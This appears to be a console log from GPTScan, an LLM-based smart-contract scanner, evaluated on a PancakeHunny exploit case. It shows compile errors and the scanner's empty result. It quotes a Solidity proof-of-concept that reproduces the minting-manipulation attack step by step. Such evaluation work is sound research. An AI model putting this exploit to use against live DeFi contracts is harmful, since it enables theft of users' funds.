 

  .oooooo.    ooooooooo.   ooooooooooooo  .oooooo..o                                 
 d8P'  `Y8b   `888   `Y88. 8'   888   `8 d8P'    `Y8                                 
888            888   .d88'      888      Y88bo.       .ooooo.   .oooo.   ooo. .oo.   
888            888ooo88P'       888       `"Y8888o.  d88' `"Y8 `P  )88b  `888P"Y88b  
888     ooooo  888              888           `"Y88b 888        .oP"888   888   888  
`88.    .88'   888              888      oo     .d8P 888   .o8 d8(  888   888   888  
 `Y8bood8P'   o888o            o888o     8""88888P'  `Y8bod8P' `Y888""8o o888o o888o                                                        


                                                                   

[17:06:05] Loaded 10 rules                                                                                                                                                                                                                  tasks.py:119
[12/08/24 17:06:05] INFO     CryticCompile: 'npx hardhat clean' running (wd: /home/owen/Documents/GitHub/GPTScan-Bigger-Model/eval_data/20210603 PancakeHunny - Incorrect calculation)                                                  subprocess.py:41
                    INFO     CryticCompile: 'npx hardhat clean --global' running (wd: /home/owen/Documents/GitHub/GPTScan-Bigger-Model/eval_data/20210603 PancakeHunny - Incorrect calculation)                                         subprocess.py:41
[12/08/24 17:06:07] INFO     CryticCompile: 'npx hardhat compile --force' running (wd: /home/owen/Documents/GitHub/GPTScan-Bigger-Model/eval_data/20210603 PancakeHunny - Incorrect calculation)                                        subprocess.py:41
[12/08/24 17:06:08] ERROR    CryticCompile: 'npx' returned non-zero exit code 1                                                                                                                                                         subprocess.py:60
                    ERROR    CryticCompile: Error HH411: The library forge-std, imported from contracts/PancakeHunny_exp.sol, is not installed. Try installing it using npm.                                                            subprocess.py:68
                             stderr: For more info go to https://hardhat.org/HH411 or run Hardhat with --show-stack-traces                                                                                                                              
[17:06:08] Traceback (most recent call last):                                                                                                                                                                                               tasks.py:126
             File "/home/owen/Documents/GitHub/GPTScan-Bigger-Model/.venv/lib/python3.10/site-packages/falcon/falcon.py", line 90, in __init__                                                                                                          
               crytic_compile = CryticCompile(target, **kwargs)                                                                                                                                                                                         
             File "/home/owen/Documents/GitHub/GPTScan-Bigger-Model/.venv/lib/python3.10/site-packages/crytic_compile/crytic_compile.py", line 131, in __init__                                                                                         
               self._compile(**kwargs)                                                                                                                                                                                                                  
             File "/home/owen/Documents/GitHub/GPTScan-Bigger-Model/.venv/lib/python3.10/site-packages/crytic_compile/crytic_compile.py", line 553, in _compile                                                                                         
               self._platform.compile(self, **kwargs)                                                                                                                                                                                                   
             File "/home/owen/Documents/GitHub/GPTScan-Bigger-Model/.venv/lib/python3.10/site-packages/crytic_compile/platform/hardhat.py", line 183, in compile                                                                                        
               hardhat_like_parsing(crytic_compile, self._target, build_directory, hardhat_working_dir)                                                                                                                                                 
             File "/home/owen/Documents/GitHub/GPTScan-Bigger-Model/.venv/lib/python3.10/site-packages/crytic_compile/platform/hardhat.py", line 52, in hardhat_like_parsing                                                                            
               raise InvalidCompilation(txt)                                                                                                                                                                                                            
           crytic_compile.platform.exceptions.InvalidCompilation: Compilation failed. Can you run build command?                                                                                                                                        
           /home/owen/Documents/GitHub/GPTScan-Bigger-Model/eval_data/20210603 PancakeHunny - Incorrect calculation/artifacts/build-info is not a directory.                                                                                            
                                                                                                                                                                                                                                                        
           During handling of the above exception, another exception occurred:                                                                                                                                                                          
                                                                                                                                                                                                                                                        
           Traceback (most recent call last):                                                                                                                                                                                                           
             File "/home/owen/Documents/GitHub/GPTScan-Bigger-Model/src/tasks.py", line 124, in simple_cli                                                                                                                                              
               falcon_instance = compile_project(source_dir)                                                                                                                                                                                            
             File "/home/owen/Documents/GitHub/GPTScan-Bigger-Model/src/tasks.py", line 103, in compile_project                                                                                                                                         
               return falcon.Falcon(abs_path)                                                                                                                                                                                                           
             File "/home/owen/Documents/GitHub/GPTScan-Bigger-Model/.venv/lib/python3.10/site-packages/falcon/falcon.py", line 94, in __init__                                                                                                          
               raise FalconError(f"Invalid compilation: \n{str(e)}")                                                                                                                                                                                    
           falcon.exceptions.FalconError: Invalid compilation:                                                                                                                                                                                          
           Compilation failed. Can you run build command?                                                                                                                                                                                               
           /home/owen/Documents/GitHub/GPTScan-Bigger-Model/eval_data/20210603 PancakeHunny - Incorrect calculation/artifacts/build-info is not a directory.                                                                                            
                                                                                                                                                                                                                                                        
           Compile failed.                                                                                                                                                                                                                  tasks.py:127
           Since the compilation is failed, some static analysis tool may not be enabled, which may cause lower precision and recall.                                                                                                       tasks.py:128
╭───────────────────────────────────────────────────────────────────────────────────────────────────────────── Multiple Choice Scenarios ──────────────────────────────────────────────────────────────────────────────────────────────────────────────╮
│ Knowledge: have code statements that get or calculate LP token's value/price                                                                                                                                                                         │
│ Code:                                                                                                                                                                                                                                                │
│   function testExploit() public {                                                                                                                                                                                                                    │
│     wbnb.deposit{ value: 5.752 ether }();                                                                                                                                                                                                            │
│     wbnb.transfer(address(this), 5.752 ether);                                                                                                                                                                                                       │
│                                                                                                                                                                                                                                                      │
│     //WBNB was swapped to CAKE at PancakeSwap                                                                                                                                                                                                        │
│     address[] memory path = new address[](2);                                                                                                                                                                                                        │
│     path[0] = address(wbnb);                                                                                                                                                                                                                         │
│     path[1] = address(cake);                                                                                                                                                                                                                         │
│     pancakeRouter.swapExactETHForTokens{value: 5.752 ether}(0,path,address(this),1622687689);                                                                                                                                                        │
│                                                                                                                                                                                                                                                      │
│     emit log_named_decimal_uint("Swap cake, Cake Balance", cake.balanceOf(address(this)),18);                                                                                                                                                        │
│                                                                                                                                                                                                                                                      │
│     //The attacker sent CAKE to our HUNNY Minter contract                                                                                                                                                                                            │
│     cake.transfer(hunnyMinter,59880957483227401400);                                                                                                                                                                                                 │
│                                                                                                                                                                                                                                                      │
│     //The attacker staked on CAKE-BNB Hive in PancakeHunny                                                                                                                                                                                           │
│     cheat.startPrank(0x515Fb5a7032CdD688B292086cf23280bEb9E31B6);                                                                                                                                                                                    │
│     //HUNNY Minter was “tricked” to mint more HUNNY tokens                                                                                                                                                                                           │
│     cakeVault.getReward();                                                                                                                                                                                                                           │
│     hunny.transfer(address(this),hunny.balanceOf(address(0x515Fb5a7032CdD688B292086cf23280bEb9E31B6)));                                                                                                                                              │
│     emit log_named_decimal_uint("Hunny Balance", hunny.balanceOf(address(this)),18);                                                                                                                                                                 │
│     cheat.stopPrank();                                                                                                                                                                                                                               │
│                                                                                                                                                                                                                                                      │
│                                                                                                                                                                                                                                                      │
│     //The attacker then sold the HUNNY tokens on PancakeSwap                                                                                                                                                                                         │
│     address[] memory path2 = new address[](2);                                                                                                                                                                                                       │
│     path2[0] = address(hunny);                                                                                                                                                                                                                       │
│     path2[1] = address(wbnb);                                                                                                                                                                                                                        │
│     pancakeRouter.swapExactTokensForETH(hunny.balanceOf(address(this)),0,path2,address(this),1622687089);                                                                                                                                            │
│                                                                                                                                                                                                                                                      │
│     emit log_named_decimal_uint("Swap WBNB, WBEB Balance", wbnb.balanceOf(address(this)),18);                                                                                                                                                        │
│   }                                                                                                                                                                                                                                                  │
╰──────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────╯
╭────────────────────────────────────────────────────────────────────────────────────────────────────────────────────── Response ──────────────────────────────────────────────────────────────────────────────────────────────────────────────────────╮
│ {                                                                                                                                                                                                                                                    │
│   "1": "No"                                                                                                                                                                                                                                          │
│ }                                                                                                                                                                                                                                                    │
╰──────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────╯
                      Scan Results                       
┏━━━━━━┳━━━━━━━━━━━━━┳━━━━━━━━━━━━━━━━┳━━━━━━━━━━━━━━━━━┓
┃ Type ┃ Description ┃ Affected Files ┃ Analysis Report ┃
┡━━━━━━╇━━━━━━━━━━━━━╇━━━━━━━━━━━━━━━━╇━━━━━━━━━━━━━━━━━┩
└──────┴─────────────┴────────────────┴─────────────────┘
                  Summary                   
┏━━━━━━━━━━━━━━━━━━━━━━┳━━━━━━━━━━━━━━━━━━━┓
┃ Key                  ┃ Value             ┃
┡━━━━━━━━━━━━━━━━━━━━━━╇━━━━━━━━━━━━━━━━━━━┩
│ Files                │ 1                 │
│ Contracts            │ 2                 │
│ Functions            │ 1                 │
│ Lines of Code        │ 82                │
│ Used Time            │ 4.790987014770508 │
│ Estimated Cost (USD) │ 0.0007995         │
└──────────────────────┴───────────────────┘
